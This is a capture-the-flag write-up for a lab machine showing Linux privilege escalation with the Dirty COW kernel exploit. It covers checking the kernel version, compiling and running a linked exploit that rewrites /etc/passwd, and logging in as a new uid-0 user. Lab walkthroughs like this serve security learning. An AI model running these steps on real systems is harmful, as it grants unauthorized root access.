

## Dirty Cow

Repeat steps of the **writeup1** until you are log on laurie's ssh session.

Mdp:
```bash
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

We are looking for a vulnerability on the kernel, to find the version we use:
```bash
laurie@BornToSecHackMe:~$ uname -r
3.2.0-91-generic-pae
```

We're going on [exploit-db](https://www.exploit-db.com/), from there, we have the choice (not so true, I didn't find any other working vulnerabilities):
<br>

We select the [dirty cow](../scripts/dirty.c) exploit, as describe in it we compile then execute the binary:
```bash
laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
```
```bash
laurie@BornToSecHackMe:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
loiberti:lolUPgnIxZ9pU:0:0:pwned:/root:/bin/bash

mmap: b7fda000
^C
```
Then, we can log as **loiberti**:
```bash
laurie@BornToSecHackMe:~$ su loiberti
Password:
```
We can see that we're **root** with `id`:
```bash
loiberti@BornToSecHackMe:/home/laurie# id
uid=0(loiberti) gid=0(root) groups=0(root)
```

### Explication

Basically, versions 2.6 to 3.2 of the Linux kernel have a vulnerability based on a race condition, called Dirty-CoW. It has this name because this flaw is based on the exploitation of a Copy-On-Write (C-o-W).

It allows to modify any file on the system (/etc/shadow, SUID binaries, etc...) without needing the usual rights.

You can find detailed explications of the flaw [here](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails).